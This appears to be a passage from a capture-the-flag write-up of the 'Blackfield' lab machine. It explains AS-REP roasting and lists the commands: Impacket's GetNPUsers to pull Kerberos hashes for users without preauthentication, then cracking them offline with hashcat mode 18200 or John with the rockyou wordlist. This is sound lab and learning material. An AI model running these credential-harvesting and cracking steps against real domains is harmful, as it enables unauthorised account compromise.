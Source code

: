 > **AS-REP** stands for **Authentication Service** (**AS**) Response Message. It is a type of message transmitted between a server and a client during **Kerberos** authentication.

> **[Impacket](https://github.com/fortra/impacket){:target="_blank"}** was originally created by **SecureAuth**, and now maintained by Fortra's Core Security. **Impacket** is a collection of **Python** classes for working with network protocols. **Impacket** is focused on providing low-level programmatic access to the packets and for some protocols (e.g. SMB1-3 and MSRPC) the protocol implementation itself.

```bash
GetNPUsers.py             # :(
which GetNPUsers.py       # :(

impacket-GetNPUsers --help          # :)
# Queries target domain for users with 'Do not require Kerberos preauthentication' set and export their TGTs for cracking
#    --> -usersfile USERSFILE  File with user per line to test
#    --> -no-pass              don't ask for password (useful for -k)

impacket-GetNPUsers blackfield.local/ -no-pass -usersfile Validusers.txt
nvim /etc/hosts
cat /etc/hosts | tail -n 1
#    --> 10.10.10.192  blackfield.local

impacket-GetNPUsers blackfield.local/ -no-pass -usersfile Validusers.txt      # :)

nvim kerberosHash

hashcat --example-hash | grep -i 'kerberos'
hashcat --example-hash | grep -i 'kerberos' -C 2 -A 10
#    --> Hash mode #18200    Kerberos 5, etype 23, AS-REP    <-- kerberosHash

hashcat -a 0 -m 18200 kerberosHash /usr/share/wordlists/rockyou.txt           # :)
# Or:
john --wordlist=/usr/share/wordlists/rockyou.txt kerberosHash                 # :)
```

<br />
<img src="{{ site.img_path }}/blackfield_writeup/Blackfield_11.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blackfield_writeup/Blackfield_12.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blackfield_writeup/Blackfield_13.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blackfield_writeup/Blackfield_14.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blackfield_writeup/Blackfield_15.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blackfield_writeup/Blackfield_16.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
